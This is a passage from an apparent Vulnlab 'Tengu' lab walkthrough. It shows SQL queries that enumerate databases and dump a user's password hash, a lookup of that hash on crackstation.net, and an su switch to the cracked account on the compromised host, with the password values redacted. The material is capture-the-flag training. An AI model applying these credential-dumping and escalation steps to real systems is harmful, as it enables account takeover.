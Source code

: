 
```c
SQL (nodered_connector  nodered_connector@Dev)> SELECT table_name from Dev.INFORMATION_SCHEMA.TABLES;
table_name   
----------   
Task
```

```c
SQL (nodered_connector  nodered_connector@Dev)> SELECT table_name from Demo.INFORMATION_SCHEMA.TABLES;
table_name   
----------   
Users
```

We found the `hash` of a user called `t2_m.winters`.

```c
SQL (nodered_connector  nodered_connector@Dev)> SELECT * from [Demo].[dbo].Users;
  ID   Username          Password                                                              
----   ---------------   -------------------------------------------------------------------   
NULL   b't2_m.winters'   b'REDACTED'
```

## Cracking the Hash

Instead of attempting to crack the hash by ourselves, we checked `crackstation.net` if the hash was already cracked and got lucky.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/files]
└─$ cat t2_m.winters_hash 
REDACTED
```

- [https://crackstation.net/](https://crackstation.net/)

| Username     | Password |
| ------------ | -------- |
| t2_m.winters | REDACTED |

## Privilege Escalation to t2_m.winters

With the newly found credentials we `elevated our privileges` on the `beachead`.

| Username              | Password |
| --------------------- | -------- |
| t2_m.winters@tengu.vl | REDACTED |

```c
nodered_svc@nodered:~$ su t2_m.winters@tengu.vl
Password: 
t2_m.winters@tengu.vl@nodered:/home/nodered_svc$
```
